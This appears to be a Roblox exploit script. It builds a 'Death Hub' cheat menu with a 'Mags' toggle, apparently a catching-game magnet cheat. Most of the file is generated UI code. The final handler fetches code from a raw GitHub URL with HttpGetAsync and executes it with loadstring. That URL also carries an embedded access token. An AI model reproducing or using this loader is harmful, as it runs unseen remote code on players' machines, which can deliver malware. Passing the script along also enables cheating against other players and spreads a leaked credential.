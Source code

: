 -- Gui to Lua
-- Version: 3.6

-- Instances:

local Main = Instance.new("ScreenGui")
local Frame = Instance.new("Frame")
local Tabs = Instance.new("Frame")
local UICorner = Instance.new("UICorner")
local Misc = Instance.new("TextButton")
local UICorner_2 = Instance.new("UICorner")
local Catching = Instance.new("TextButton")
local UICorner_3 = Instance.new("UICorner")
local Top = Instance.new("Frame")
local UICorner_4 = Instance.new("UICorner")
local Title = Instance.new("TextLabel")
local UICorner_5 = Instance.new("UICorner")
local Details = Instance.new("Frame")
local main = Instance.new("Frame")
local Catching_2 = Instance.new("Frame")
local TextLabel = Instance.new("TextLabel")
local Mags = Instance.new("TextButton")
local UIAspectRatioConstraint = Instance.new("UIAspectRatioConstraint")
local UICorner_6 = Instance.new("UICorner")
local Misc_2 = Instance.new("Frame")
local TextLabel_2 = Instance.new("TextLabel")

-- Properties:

Main.Name = "Main"
Main.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
Main.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

Frame.Parent = Main
Frame.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
Frame.BorderColor3 = Color3.fromRGB(0, 0, 0)
Frame.BorderSizePixel = 0
Frame.Position = UDim2.new(0.0682043135, 0, 0.15953283, 0)
Frame.Size = UDim2.new(0, 498, 0, 302)
Frame.Active = true
Frame.Draggable = true

Tabs.Name = "Tabs"
Tabs.Parent = Frame
Tabs.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
Tabs.BorderColor3 = Color3.fromRGB(0, 0, 0)
Tabs.BorderSizePixel = 0
Tabs.Size = UDim2.new(0, 73, 0, 302)

UICorner.Parent = Tabs

Misc.Name = "Misc"
Misc.Parent = Tabs
Misc.BackgroundColor3 = Color3.fromRGB(200, 48, 48)
Misc.BorderColor3 = Color3.fromRGB(0, 0, 0)
Misc.BorderSizePixel = 0
Misc.Position = UDim2.new(0.0945945978, 0, 0.167852402, 0)
Misc.Size = UDim2.new(0, 79, 0, 21)
Misc.Font = Enum.Font.SourceSans
Misc.Text = "Misc"
Misc.TextColor3 = Color3.fromRGB(0, 0, 0)
Misc.TextSize = 14.000

UICorner_2.Parent = Misc

Catching.Name = "Catching"
Catching.Parent = Tabs
Catching.BackgroundColor3 = Color3.fromRGB(200, 48, 48)
Catching.BorderColor3 = Color3.fromRGB(0, 0, 0)
Catching.BorderSizePixel = 0
Catching.Position = UDim2.new(0.0945945978, 0, 0.0800354481, 0)
Catching.Size = UDim2.new(0, 79, 0, 21)
Catching.Font = Enum.Font.SourceSans
Catching.Text = "Main"
Catching.TextColor3 = Color3.fromRGB(0, 0, 0)
Catching.TextSize = 14.000

UICorner_3.Parent = Catching

Top.Name = "Top"
Top.Parent = Frame
Top.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
Top.BorderColor3 = Color3.fromRGB(0, 0, 0)
Top.BorderSizePixel = 0
Top.Position = UDim2.new(3.06401375e-08, 0, -0.101487719, 0)
Top.Size = UDim2.new(0, 498, 0, 52)

UICorner_4.Parent = Top

Title.Name = "Title"
Title.Parent = Top
Title.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Title.BackgroundTransparency = 1.000
Title.BorderColor3 = Color3.fromRGB(0, 0, 0)
Title.BorderSizePixel = 0
Title.Position = UDim2.new(0.0853355825, 0, 0.17006126, 0)
Title.Size = UDim2.new(0, 104, 0, 32)
Title.Font = Enum.Font.Gotham
Title.Text = "Death Hub"
Title.TextColor3 = Color3.fromRGB(200, 48, 48)
Title.TextSize = 31.000

UICorner_5.Parent = Frame

Details.Name = "Details"
Details.Parent = Frame
Details.BackgroundColor3 = Color3.fromRGB(75, 75, 75)
Details.BorderColor3 = Color3.fromRGB(0, 0, 0)
Details.BorderSizePixel = 0
Details.Position = UDim2.new(0.191326857, 0, 0.0701204017, 0)
Details.Size = UDim2.new(0, -3, 0, 257)

main.Name = "main"
main.Parent = Frame
main.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
main.BackgroundTransparency = 1.000
main.BorderColor3 = Color3.fromRGB(0, 0, 0)
main.BorderSizePixel = 0
main.Position = UDim2.new(0.178826168, 0, 0.0643049851, 0)
main.Size = UDim2.new(0, 410, 0, 294)

Catching_2.Name = "Catching"
Catching_2.Parent = main
Catching_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Catching_2.BackgroundTransparency = 1.000
Catching_2.BorderColor3 = Color3.fromRGB(0, 0, 0)
Catching_2.BorderSizePixel = 0
Catching_2.Position = UDim2.new(-2.9773247e-07, 0, -0.0102038737, 0)
Catching_2.Size = UDim2.new(0, 410, 0, 268)

TextLabel.Parent = Catching_2
TextLabel.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel.BackgroundTransparency = 1.000
TextLabel.BorderColor3 = Color3.fromRGB(0, 0, 0)
TextLabel.BorderSizePixel = 0
TextLabel.Position = UDim2.new(0.281153589, 0, 0.113051176, 0)
TextLabel.Size = UDim2.new(0, 59, 0, 28)
TextLabel.Font = Enum.Font.SourceSans
TextLabel.Text = "Mags "
TextLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
TextLabel.TextSize = 14.000

Mags.Name = "Mags"
Mags.Parent = Catching_2
Mags.BackgroundColor3 = Color3.fromRGB(200, 48, 48)
Mags.BorderColor3 = Color3.fromRGB(0, 0, 0)
Mags.BorderSizePixel = 0
Mags.Position = UDim2.new(0.215425909, 0, 0.113051176, 0)
Mags.Size = UDim2.new(0, 28, 0, 28)
Mags.Font = Enum.Font.SourceSans
Mags.Text = ""
Mags.TextColor3 = Color3.fromRGB(0, 0, 0)
Mags.TextSize = 14.000

UIAspectRatioConstraint.Parent = Mags

UICorner_6.Parent = Mags

Misc_2.Name = "Misc"
Misc_2.Parent = main
Misc_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Misc_2.BackgroundTransparency = 1.000
Misc_2.BorderColor3 = Color3.fromRGB(0, 0, 0)
Misc_2.BorderSizePixel = 0
Misc_2.Position = UDim2.new(-3.14614198e-07, 0, 1.16479306e-07, 0)
Misc_2.Size = UDim2.new(0, 409, 0, 268)
Misc_2.Visible = false

TextLabel_2.Parent = Misc_2
TextLabel_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
TextLabel_2.BackgroundTransparency = 1.000
TextLabel_2.BorderColor3 = Color3.fromRGB(0, 0, 0)
TextLabel_2.BorderSizePixel = 0
TextLabel_2.Position = UDim2.new(0.214285716, 0, 0.119402982, 0)
TextLabel_2.Size = UDim2.new(0, 200, 0, 50)
TextLabel_2.Font = Enum.Font.Unknown
TextLabel_2.Text = "Coming Soon!"
TextLabel_2.TextColor3 = Color3.fromRGB(255, 255, 255)
TextLabel_2.TextSize = 29.000

-- Scripts:

Mags.MouseButton1Down:connect(function()
	loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/fatman242343254/wada/main/README.md?token=GHSAT0AAAAAACQIKFZY6TIHMPZ7WLPSND2CZRAH3VQ"))()
end)

